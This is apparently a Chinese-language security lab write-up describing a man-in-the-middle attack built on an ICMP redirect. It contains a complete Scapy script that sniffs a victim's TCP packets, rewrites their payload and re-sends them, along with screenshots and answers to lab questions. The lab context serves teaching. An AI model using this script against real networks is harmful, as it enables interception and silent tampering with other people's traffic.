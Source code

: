 ## task2: Launching the MITM Attack

1. 首先利用task1中的ICMP重定向在伪装路由中劫持从受害主机到目的主机的连接
2. 建立连接后使用命令
```bash
sysctl net.ipv4.ip_forward=0
```
关闭转发并运行下面的攻击代码：
```python
#!/usr/bin/env python3
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'liushijie', b'AAAAAAAAA')

       send(newpkt/newdata)
   else:
       send(newpkt)

# f = 'tcp' 
f = 'tcp and ether src 02:42:0a:09:00:05'

pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)

```

3. 整个攻击结果截图如下：
在攻击主机上运行如下命令：
![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab3/image/3.png)
受害主机的发送如下图：
![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab3/image/4.png)
目的主机接收到的如下图，第一行是攻击之前，第二行是开始攻击之后
![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab3/image/2.png)

**liushijie成功被修改为AAAAAAAAA，说明攻击成功。**


**Q4:**
只需要捕获从受害主机到目的主机一个方向的包。因为攻击目的是捕获并修改受害主机发出的包，不需要修改受害主机接收到的包

**Q5:**
在过滤器中应该使用MAC地址，就如上述代码中一样，因为使用ip地址会造成转发风暴。